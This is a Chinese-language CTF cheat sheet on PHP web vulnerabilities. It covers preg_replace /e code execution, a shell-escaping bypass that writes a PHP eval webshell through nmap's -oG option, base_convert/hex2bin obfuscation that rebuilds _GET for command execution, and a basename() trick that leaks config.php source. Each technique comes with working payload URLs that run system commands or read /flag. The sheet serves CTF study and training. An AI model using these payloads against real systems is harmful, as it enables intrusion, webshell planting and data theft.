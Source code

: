 ## **preg_replace函数代码执行**
preg_replace接收三个参数，$a是正则表达式为/e时。
第二个参数是代码，第三个参数被匹配，则第二个参数会代码执行。
第三个参数$c如果${}包裹里面会被代码执行
```
preg_replace($a,$b,$c);

?pat=/abc/e&rep=system('ls')&sub=abc
```


^
正则替换函数
```
function getFlag(){
    @eval($_GET['cmd']);
}

//将每个get传参的参数和参数值进行匹配
foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}
```



```
如果传参
参数 "/([A-Z])/"; // 匹配大写字母的正则表达式
值 "Hello World"

preg_replace 函数来将字符串中的大写字母转换为小写字母：
这段代码执行后会输出 "hello world"
```
这里的漏洞出在preg_replace /e 模式下。
值用${}包裹后会代码执行。
```
比如我们传入  ?.*={${phpinfo()}}
原句：preg_replace('/(' . $re . ')/ei','strtolower("\\1")',$str); 
就变成preg_replace('/(' .* ')/ei','strtolower("\\1")',{${phpinfo()}});

又因为$_GET传入首字母是非法字符时候会把 .（点号）改成下划线，因此得将\.*换成\S*

所以payload：?\S*=${getFlag()}&cmd=system('ls /'); 
此时getFlag()会被代码执行，调用函数，即可使用cmd。
```


^
## **过滤函数**
```
$host = $_GET['host'];
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
```
利用特性，和namp参数写文件webshell
```
?host=' <?php @eval($_POST["cmd"]);?> -oG test.php '
或直接读
?host=' <?php echo `cat /flag`;?> -oG test.php '
```



^
## **进制转换函数**
```
base_convert(37907361743,10,36) = "hex2bin"

hex2bin(5f 47 45 54) = "_GET"

dechex(1598506324) =  "5f 47 45 54"

_GET = base_convert(37907361743,10,36)(dechex(1598506324))

变量覆盖
/?c=$p=base_convert(37907361743,10,36)(dechex(1598506324));($$p){pi}(($$p){abs})&pi=system&abs=cat /flag
```


^
^
## **basename()场景漏洞**
源代码：
```
if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}
if (isset($_GET['source'])) {
    highlight_file(basename($_SERVER['PHP_SELF']));
}
```
我们要包含高亮config.php
`$_SERVER['PHP_SELF']`会获取我们当前的访问路径，并且PHP在根据URI解析到对应文件后会忽略掉URL中多余的部分，即若访问存在的index.php页面，如下两种UR均会访问到。
```
/index.php
/index.php/dosent_exist.php
```
`basename`可以理解为对传入的参数路径截取最后一段作为返回值，但是该函数发现最后一段为不可见字符时会退取上一层的目录，basename只能转换ASCII码内的字符。即：
```
$var1="/config.php/test"
basename($var1)	=> test
$var2="/config.php/%ff"
basename($var2)	=>	config.php
```
`$_SERVER['PHP_SELF']`提交index.php/config.php时，经过basename过滤后只剩下config.php，需要绕过的只有正则，basename只能转换ASCII码内的字符，通过超过ASCII码范围的字符进行绕过。

接下来就显然了，通过构造URI让其包含`config.php`这个文件名再让`basename`函数截取出来，之后通过请求参数`source`就能显示`config.php`的源码，也就能见到`flag`了。
```
/index.php/config.php/%ff?source
```


